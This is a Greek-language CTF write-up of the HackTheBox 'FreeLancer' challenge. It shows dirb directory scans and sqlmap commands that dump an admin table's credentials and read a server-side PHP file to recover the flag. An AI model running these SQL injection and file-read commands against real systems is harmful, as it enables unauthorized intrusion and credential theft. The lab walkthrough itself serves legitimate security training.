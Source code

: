 ```yaml
---
title: FreeLancer
date: 2020-09-22 10:00:00 +0300
categories: [HackTheBox, Challenges]
tags: [htb]     # TAG names should always be lowercase
---
```


### dictionary attack
Τρέχουμε `dirb` ώστε να αποτκήσουμε όσο το δυνατόν περισσότερα στοιχεία για τον στόχο μας.
Από το `dirb` βλέπουμε το παρακάτω url
`http://docker.hackthebox.eu:31317/administrat/`

![Desktop View](/assets/img/sample/dirb_freelancer.png)

### SqlInjection
Έπειτα θα τρέξουμε τρέξουμε το `sqlmap`. 
1. Πρώτα θα κάνουμε crawl.
```shell
sqlmap -u  http://docker.hackthebox.eu:31625/ --crawl=2
```
μας φέρνει το εξής url `http://docker.hackthebox.eu:31625/portfolio.php?id=1`

![Desktop View](/assets/img/sample/sqlmap_crawl.png)


2. Μετά θα τρέξουμετο sqlmap πάλι ώστε να βρούμε τις databases.
```shell
sqlmap -u  http://docker.hackthebox.eu:31625/ --crawl=2
```

![Desktop View](/assets/img/sample/sql_map_db_tables.png)

Αφού βρίκαμε το table safeadmin που ανηκει στην βαση freelancer θα το τεστάρουμε να δούμε για πιθανούς χρήστες.
```shell
sqlmap -u http://docker.hackthebox.eu:31625/portfolio.php?id=1/ -T safeadmin --dump
```
οπως προκύπτει και απο την παρακάτω εικόνα πήραμε το όνομα χρήστη και έναν κρυπτογραφημένο κωδικό!!
![Desktop View](/assets/img/sample/table_enumarate.png)

> Μέχρι στιγμής τρέξαμε `sqlmap` για να βρουμε χρήστη και κωδικο ωστε να μπορεσουμε να το χρησιμοποιησουμε στο url που βρίκαμε μέσω του `dirb` 

## Λίγο πιο δυσκολα μετά..
Μετά απο πολλες δοκιμασίες η λύση ήταν να ξανατρέξουμε το `dirb` στο directory administrat το οποιο μας έφερε το panel.php
```shell
dirb "http://docker.hackthebox.eu:31762/administrat/" -X.php
```
![Desktop View](/assets/img/sample/dirb_directory_freelancer.png)

Επειτα ξέροντας οτι το default directory  των αρχείων είναι το /var/www/html τρέχοντας ξανα mysql κατεβάζουμε το αρχειο panel.php
```shell
sqlmap -u http://docker.hackthebox.eu:31762/portfolio.php?id=1 --file-read=/var/www/html/administrat/panel.php
```
![Desktop View](/assets/img/sample/download_freelancer_php.png)
```shell
cat cat '/home/kali/.local/share/sqlmap/output/docker.hackthebox.eu'
```
![Desktop View](/assets/img/sample/cat_freelancer_flag.png)
 και βλέποντας μέσα στο αρχέιο μας δείνει το flag!!!
